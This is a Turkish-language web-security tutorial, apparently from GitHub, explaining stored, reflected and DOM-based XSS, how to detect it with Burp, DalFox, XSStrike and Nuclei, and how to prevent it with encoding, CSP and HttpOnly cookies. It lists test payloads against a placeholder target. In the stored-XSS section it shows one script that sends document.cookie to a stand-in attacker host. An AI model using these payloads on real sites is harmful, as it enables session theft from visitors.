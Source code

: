 :
### XSS (Cross-Site Scripting) Nedir?
XSS (Cross-Site Scripting), saldırganların bir web sitesine zararlı JavaScript kodu enjekte etmesine olanak tanıyan bir güvenlik açığıdır. Bu kod, siteyi ziyaret eden diğer kullanıcıların tarayıcılarında çalıştırılır ve oturum çalma, kimlik bilgisi hırsızlığı, keylogger yerleştirme veya kötü amaçlı yönlendirmeler gibi saldırılara sebep olabilir.

## 1️⃣ XSS Türleri
### 1️⃣ Stored XSS (Depolanmış XSS)
### Açıklama: Zararlı JavaScript kodunun kalıcı olarak web sitesine kaydedildiği saldırı türüdür. Kullanıcı siteyi ziyaret ettiğinde kod otomatik olarak çalıştırılır.
### Örnek:
Yorum, mesaj, forum postları gibi kullanıcı tarafından girilen verilerin kaydedilmesi
Profil isimleri, blog içerikleri veya ürün açıklamalarına zararlı kod eklenmesi
Payload Örneği:
Bir yorum alanına aşağıdaki gibi bir XSS payload eklenirse, sayfayı ziyaret eden herkesin tarayıcısında bu kod çalışacaktır:
```html
<script>alert('XSS')</script>
```

- 🔹 Korunma Yöntemleri:
- ✅ Kullanıcı girişlerini HTML encode ile filtrele
- ✅ CSP (Content Security Policy) kullanarak zararlı komutları engelle

### 2️⃣ Reflected XSS (Yansıtılmış XSS)
### Açıklama: Kullanıcının tarayıcısına anında geri dönen XSS türüdür. Saldırgan genellikle zararlı bir link oluşturarak kurbanı bu linke tıklaması için kandırır.
### Örnek:
Arama kutusu, hata mesajları veya URL parametrelerinde işlenen zararlı kodlar
Payload Örneği:
```html
https://target.com/search?q=<script>alert('XSS')</script>
Bu linke tıklayan kişinin tarayıcısında alert() penceresi açılacaktır.
🔹 Korunma Yöntemleri:
✅ Girdi doğrulaması ve filtreleme yap
✅ XSS korumalı framework’ler (React, Angular gibi) kullan
```

### 3️⃣ DOM-Based XSS
### Açıklama: Zararlı JavaScript kodunun tarayıcı tarafından çalıştırıldığı XSS türüdür. Burada saldırı, web sunucusu yerine tarayıcı tarafında (DOM manipülasyonu ile) gerçekleştirilir.
### Örnek:
Bir URL parametresi innerHTML veya document.write() gibi unsurlara aktarılırsa XSS oluşabilir:
```js
var userInput = location.hash.substring(1);
document.write(userInput);
Eğer saldırgan şu URL’yi kurbanla paylaşırsa:
```
```html
https://target.com/#<script>alert('XSS')</script>
Kurban bu linke girdiğinde XSS çalışacaktır.
🔹 Korunma Yöntemleri:
✅ innerHTML, document.write(), eval() gibi güvenliksiz fonksiyonları kullanma
✅ Kullanıcı girdilerini sanitize et ve encode uygula
```

## 2️⃣ XSS Açığını Tespit Etme
### Manuel Testler:
<script>alert('XSS')</script> gibi payload’ları dene
Burp Suite Repeater kullanarak dinamik alanları test et
DOM manipülasyonu yapan alanları analiz et
### Otomatik Araçlar:
Burp Suite Scanner
XSStrike
DalFox
Nuclei XSS Tarama
```bash
nuclei -t vulnerabilities/xss -u https://target.com
```

## 3️⃣ XSS’ten Korunma Yöntemleri
- ✅ Girdi Doğrulaması: Kullanıcının girdiği verileri kontrol et
- ✅ Çıkışta Filtreleme: HTML encode uygula (<script> yerine &lt;script&gt;)
- ✅ CSP (Content Security Policy) Kullan: Sadece güvenli kaynaklardan script çalıştır
- ✅ HttpOnly ve Secure Cookie Kullan: Oturum çalınmasını engelle

### Sonuç
XSS, web uygulamalarında en yaygın güvenlik açıklarından biri olup saldırganların oturum çalmasına, sayfa içeriğini değiştirmesine veya kullanıcıları zararlı sitelere yönlendirmesine neden olabilir. Bu yüzden girdi doğrulaması, filtreleme ve güvenli kodlama prensipleri ile korunma sağlanmalıdır. 🚀

_______________________________________________________________________________________

### URL ile XSS (Reflected ve DOM-Based XSS) Nedir?
URL ile XSS saldırıları genellikle Reflected XSS ve DOM-Based XSS şeklinde gerçekleşir. Saldırgan, mağdurun tarayıcısında çalışacak kötü niyetli bir JavaScript kodunu URL’ye enjekte eder. Mağdur bu URL’yi açtığında zararlı kod çalışır.

## 1️⃣ Reflected XSS ile URL Üzerinden Saldırı
Reflected XSS, web sunucusunun, URL’den gelen girdiyi filtrelemeden sayfaya yerleştirmesi sonucu oluşur. Kullanıcı URL’deki kötü amaçlı JavaScript içeren bağlantıya tıkladığında tarayıcısında kod çalışır.
### Örnek Zafiyetli URL:
Bir arama kutusu içeren site düşünelim:
```html
https://target.com/search?q=deneme
Sunucu, bu değeri sayfa içine yansıtır:
```
```html
<p>Arama Sonucu: deneme</p>
Eğer giriş doğrulaması yapılmazsa, URL’ye bir JavaScript kodu enjekte edilebilir:
```
```html
https://target.com/search?q=<script>alert('XSS')</script>
Bu durumda, site bu girdiyi doğrudan sayfaya eklediğinde saldırı gerçekleşir:
```
```html
<p>Arama Sonucu: <script>alert('XSS')</script></p>
Sonuç: Kurban bu linke tıklarsa tarayıcısında alert('XSS') açılır.
✅ Test Etmek İçin Kullanılabilecek Payload’lar:
```
```html
https://target.com/search?q=<script>alert(1)</script>
https://target.com/search?q="><script>alert(1)</script>
https://target.com/search?q=<svg/onload=alert(1)>
https://target.com/search?q=<img src=x onerror=alert(1)>
https://target.com/search?q=<body onload=alert(1)>
```


🛠️ 2️⃣ DOM-Based XSS ile URL Üzerinden Saldırı
DOM-Based XSS, JavaScript’in document.write(), innerHTML, location.href, eval() gibi güvenliksiz fonksiyonları kullanması nedeniyle oluşur. Bu durumda saldırı, sunucu tarafında değil, tarayıcı tarafında gerçekleşir.
### Örnek Güvenlik Açığı:
Aşağıdaki kod, URL’de bulunan msg parametresini alıp sayfaya eklemektedir:
```html
<script>
var message = new URLSearchParams(window.location.search).get("msg");
document.write(message);
</script>
Eğer bir saldırgan şu URL’yi kullanırsa:
```
```html
https://target.com/index.html?msg=<script>alert('XSS')</script>
Sayfayı ziyaret eden kullanıcının tarayıcısında XSS çalışacaktır.
✅ DOM-Based XSS Test İçin URL Payload’ları:
```
```html
https://target.com/index.html#<script>alert('XSS')</script>
https://target.com/index.html?msg=<img src=x onerror=alert(1)>
https://target.com/index.html?data=<svg/onload=alert(1)>
https://target.com/index.html?msg=<body onload=alert(1)>
```


🔎 3️⃣ URL ile XSS Açığını Test Etme
- ✅ Burp Suite Repeater ile URL’deki parametreleri test et
- ✅ Manuel Payload Denemeleri yaparak sayfanın çıktısını incele
- ✅ DalFox & XSStrike gibi araçlarla otomatik tarama yap
```bash
dalfox url "https://target.com/search?q=test"
xsstrike -u "https://target.com/search?q=test"
✅ Developer Console’da (F12) JavaScript analizi yap
```
```js
document.write(location.search);
```


## 4️⃣ XSS Açıklarından Korunma Yöntemleri
- 🚫 Kullanıcı girişlerini doğrudan sayfaya yazdırma!
- ✅ Girdi doğrulaması yap ve özel karakterleri filtrele (<, >, ", ', / gibi karakterleri engelle)
- ✅ HTML encode kullan:
```js
function escapeHTML(str) {
    return str.replace(/[&<>"']/g, function (match) {
        return {
            '&': '&amp;',
            '<': '&lt;',
            '>': '&gt;',
            '"': '&quot;',
            "'": '&#39;'
        }[match];
    });
}
✅ CSP (Content Security Policy) kullanarak yalnızca güvenilir kaynaklardan script çalıştır
✅ HttpOnly ve Secure flag içeren çerezler kullanarak oturum çalınmasını önle
```

### Sonuç
URL ile XSS saldırıları, kullanıcıları kandırarak zararlı kod çalıştırmak için yaygın olarak kullanılan bir yöntemdir. Reflected XSS ve DOM-Based XSS açıklarını önlemek için güvenli kodlama prensipleri uygulanmalı ve uygun koruma yöntemleri alınmalıdır. 🚀
_____________________________________________________________________________________

### Kayıtlı XSS (Stored XSS) Nedir?
Kayıtlı XSS (Stored XSS), saldırganın zararlı JavaScript kodunu bir web sitesinin veritabanına veya kalıcı bir depolama alanına kaydetmesiyle oluşan bir güvenlik açığıdır. Bu tür saldırılar, yorum bölümleri, mesaj panoları, kullanıcı profilleri veya forumlar gibi veri girişlerinin kaydedildiği yerlerde yaygındır.
- ✅ Stored XSS ile saldırı başarılı olursa:
Zararlı kod herkese çalıştırılır.
Kullanıcı tarayıcılarında session çalma, keylogger, phishing saldırıları yapılabilir.
Etkilenen herkes saldırıdan habersiz kalır.

## 1️⃣ Kayıtlı XSS Örneği
Bir web sitesinde yorum ekleyebildiğimiz bir alan olduğunu düşünelim. Kullanıcı, aşağıdaki gibi bir yorum yazarsa:
```html
<script>alert('XSS')</script>
Ve web sitesi bu girdiyi filtrelemeden veritabanına kaydeder ve sayfaya eklerse, tüm ziyaretçiler için JavaScript kodu otomatik olarak çalışır.
📌 Örnek Kötü Amaçlı Girdi
```
```html
<script>document.location='http://attackersite.com/steal?cookie='+document.cookie</script>
Bu kod, kurbanın çerezlerini saldırgana gönderir.
```

🛠️ 2️⃣ Kayıtlı XSS Açığını Test Etme
- ✅ Kendi yorumlarını kontrol et:
Form alanlarına <script>alert("XSS")</script> gibi payload’lar gir.
Yorum ekle ve sayfa yenilendiğinde çalışıp çalışmadığını kontrol et.
- ✅ Gizli JavaScript çalıştır:
Bazı sitelerde alert() kapalı olabilir, ancak aşağıdaki kodlar çalışabilir:
```html
<script>console.log("XSS Test")</script>
<img src=x onerror=alert('XSS')>
<svg/onload=alert('XSS')>
Eğer yukarıdaki kodlar çalışıyorsa Stored XSS açığı var demektir.
✅ Burp Suite Proxy ile HTTP requestleri analiz et:
Form verilerini Intercept (yakala) yaparak sunucuya gönderilen POST/GET isteklerini incele.
XSS payload’larını farklı alanlara enjekte ederek sitenin nasıl tepki verdiğini kontrol et.
✅ Automated XSS Scan (Otomatik Tarama) için Araçlar Kullan:
DalFox:
```
```bash
dalfox url "https://target.com/comment"
XSStrike:
```
```bash
xsstrike -u "https://target.com/comment"
```

## 3️⃣ Kayıtlı XSS Açıklarından Korunma Yöntemleri
- ✅ Girdi Doğrulama ve Filtreleme:
HTML encode yap: Kullanıcının girdiği <script> gibi etiketleri &lt;script&gt; olarak dönüştür.
Girdi uzunluğu sınırlı olsun: <script> gibi zararlı kod eklemek için uzun metinler gereklidir.
Yalnızca izin verilen karakterleri kullan: Örneğin, yorum alanına sadece harf, sayı ve belirli noktalama işaretlerini eklemeye izin ver.
- ✅ Çıktı Temizleme (Output Encoding):
Kullanıcının girdiği verileri innerHTML, document.write gibi fonksiyonlarla doğrudan eklemeyin!
Bunun yerine textContent veya innerText kullanın:
```js
document.getElementById("comment").textContent = userInput;
✅ CSP (Content Security Policy) Kullan:
Yalnızca belirli kaynaklardan JavaScript çalıştırılmasını sağlamak için CSP ekleyin.
```
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trusted-source.com;">
✅ HttpOnly ve Secure Çerez Kullanımı:
Çerezleri HttpOnly olarak ayarlayarak JavaScript ile okunmasını engelleyin:
```
```bash
Set-Cookie: session=xyz; HttpOnly; Secure
```

### Sonuç
Kayıtlı XSS, kalıcı ve tehlikeli bir açık olup, saldırganın zararlı kodu bir defa enjekte ettikten sonra her kullanıcıyı etkileyebildiği bir saldırıdır. Güvenli kodlama, çıktı temizleme ve CSP kullanımı ile bu tür saldırılar önlenebilir. 🚀
______________________________________________________________________________________
## XSS'ten Korunma Yöntemleri
XSS (Cross-Site Scripting) saldırılarından korunmak için girdi doğrulama, çıktı temizleme ve güvenlik önlemleri almak gereklidir. İşte XSS'ten korunmak için almanız gereken önlemler:

### 1️⃣ Kullanıcı Girdilerini Doğrulayın ve Filtreleyin
Kullanıcıdan gelen her veriyi güvenli kabul etmeyin!
Yalnızca izin verilen karakterleri kabul edin. (Beyaz liste yöntemi)
HTML etiketlerini temizleyin veya encode edin.


Örnek (Python – Flask)
```python
from markupsafe import escape  
@app.route("/comment", methods=["POST"])
def comment():
    user_input = escape(request.form["comment"])  # HTML encode
    return f"Yorum kaydedildi: {user_input}"
✅ escape() fonksiyonu zararlı HTML etiketlerini &lt;script&gt; gibi encode eder.
Örnek (PHP)
```
```php
$user_input = htmlspecialchars($_POST["comment"], ENT_QUOTES, 'UTF-8');
✅ htmlspecialchars() zararlı karakterleri HTML olarak encode eder.
```

### 2️⃣ Çıktı Temizleme (Output Encoding)
Kullanıcı girdisini doğrudan sayfaya eklemeyin!
innerHTML, document.write() gibi fonksiyonlar yerine textContent veya innerText kullanın.
Örnek (JavaScript)
```js
document.getElementById("comment").textContent = userInput;
✅ textContent doğrudan HTML yerine sadece metin olarak ekler.
```

### 3️⃣ Güçlü Content Security Policy (CSP) Kullanın
CSP, tarayıcının belirli kaynaklardan gelen scriptleri engellemesini sağlar.
Örnek (Meta Tag ile CSP)
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trusted-cdn.com;">
✅ Yalnızca belirli kaynaklardan JavaScript çalıştırılmasını sağlar.
Örnek (HTTP Header ile CSP)
```
```bash
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-scripts.com
```

4️⃣ HttpOnly ve Secure Çerezleri Kullanın
XSS saldırıları genellikle çerez çalmak için yapılır. HttpOnly çerezler JavaScript ile erişilemez.
Örnek (Set-Cookie Header)
```bash
Set-Cookie: session=xyz; HttpOnly; Secure
```

- ✅ HttpOnly çerezleri JavaScript ile okunamaz.
- ✅ Secure sadece HTTPS üzerinden gönderir.

5️⃣ Güvenli JavaScript Kullanımı
eval(), document.write(), setInnerHTML() gibi fonksiyonlardan kaçının!
Eğer JSON verisi işleniyorsa, JSON.parse() kullanın, eval() kullanmayın!
Yanlış Kullanım (XSS Açığı Var)
```js
var userInput = "<script>alert('XSS')</script>";
document.body.innerHTML = userInput;  // XSS saldırısına açık
Doğru Kullanım
```
```js
document.body.textContent = userInput;  // Güvenli
```


6️⃣ Web Uygulama Güvenlik Duvarı (WAF) Kullanın
Cloudflare, AWS WAF, ModSecurity gibi güvenlik duvarları zararlı XSS payload'larını engelleyebilir.

### Sonuç
XSS saldırılarından korunmak için girdi doğrulama, çıktı temizleme, CSP, güvenli çerezler ve güvenli kodlama yöntemlerini uygulamak gerekir. 🚀



